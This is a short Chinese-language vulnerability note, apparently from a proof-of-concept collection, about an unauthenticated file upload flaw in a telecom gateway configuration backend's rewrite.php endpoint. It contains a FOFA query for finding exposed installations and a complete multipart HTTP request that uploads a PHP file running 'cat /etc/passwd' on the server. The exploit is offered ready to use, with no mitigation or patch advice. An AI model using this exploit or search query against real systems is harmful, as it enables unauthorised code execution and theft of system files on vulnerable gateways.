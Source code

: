 ## 电信网关配置管理后台rewrite.php接口存在文件上传漏洞

电信网关配置管理系统/manager/teletext/material/rewrite.php接口存在文件上传漏洞,未经身份验证的远程攻击者可以利用文件上传漏洞获取系统权限。

## fofa

```
body="img/login_bg3.png" && body="系统登录"
```

## poc

```
POST /manager/teletext/material/rewrite.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOKldnDPT
Connection: close
 
------WebKitFormBoundaryOKldnDPT
Content-Disposition: form-data; name="tmp_name"; filename="test.php"
Content-Type: image/png
 
<?php system("cat /etc/passwd");unlink(__FILE__);?>
------WebKitFormBoundaryOKldnDPT
Content-Disposition: form-data; name="uploadtime"
 
 
------WebKitFormBoundaryOKldnDPT--
```

![image-20240531000747444](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405310007491.png)

![image-20240531000810820](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405310008855.png)